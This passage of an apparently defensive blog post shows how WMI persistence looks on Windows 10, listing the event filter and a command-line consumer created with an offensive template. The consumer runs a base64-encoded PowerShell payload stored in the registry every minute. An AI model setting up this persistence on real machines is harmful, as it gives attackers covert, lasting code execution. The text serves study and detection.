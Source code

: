 # How does a WMI persistent object look like?
Let's use two scripts that allow us to easily create a malicious persistence without having to do it step by step (have a look at the PS files to understand all the bits and pieces involved), namely: 
- [PowerLurk](https://github.com/Sw4mpf0x/PowerLurk/blob/master/PowerLurk.ps1) by Sw4mp\_f0x
- [WMI Persistence Template](https://gist.github.com/mattifestation/e55843eef6c263608206) by Matt G.

## WMI Persistence Template by Matt G. 
We tweaked some of the parameters in the script to make sure the timer event launches every minute and that no cleanup is performed at the end. After launching it, we can inspect the newly created Event Consumers/Filters/Bindings as follows: 

**EventFilter**
{% highlight powershell %}
Get-WmiObject -Namespace root\subscription -Class __EventFilter
{% endhighlight %}

Result: 
{% highlight powershell %}
__GENUS          : 2
__CLASS          : __EventFilter
__SUPERCLASS     : __IndicationRelated
__DYNASTY        : __SystemClass
__RELPATH        : __EventFilter.Name="TimerTrigger"
__PROPERTY_COUNT : 6
__DERIVATION     : {__IndicationRelated, __SystemClass}
__SERVER         : W10B1
__NAMESPACE      : ROOT\subscription
__PATH           : \\W10B1\ROOT\subscription:__EventFilter.Name="TimerTrigger"
CreatorSID       : {1, 5, 0, 0...}
EventAccess      : 
EventNamespace   : root/cimv2
Name             : TimerTrigger
Query            : SELECT * FROM __TimerEvent WHERE TimerID = 'PayloadTrigger'
QueryLanguage    : WQL
PSComputerName   : W10B1
{% endhighlight %}

**EventConsumer**
{% highlight powershell %}
Get-WmiObject -Namespace root\subscription -Class __EventConsumer
{% endhighlight %}

Result: 
{% highlight powershell %}
[snip]
__GENUS               : 2
__CLASS               : CommandLineEventConsumer
__SUPERCLASS          : __EventConsumer
__DYNASTY             : __SystemClass
__RELPATH             : CommandLineEventConsumer.Name="ExecuteEvilPowerShell"
__PROPERTY_COUNT      : 27
__DERIVATION          : {__EventConsumer, __IndicationRelated, __SystemClass}
__SERVER              : W10B1
__NAMESPACE           : ROOT\subscription
__PATH                : \\W10B1\ROOT\subscription:CommandLineEventConsumer.Name="ExecuteEvilPowerShell"
CommandLineTemplate   : powershell.exe -NoP -C "iex ([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String((Get-ItemProperty -Path HKLM:\SOFTWARE\PayloadKey -Name PayloadValue).PayloadValue)))"
[snip]
{% endhighlight %}


[^1]: Since Win 8 and Server 2012: http://windowsitpro.com/security/understanding-and-enabling-command-line-auditing
[^2]: EventCode 5861 sample contents: 
[^3]: EventCode 400 sample contents:
[^4]: EventCode 403 sample contents: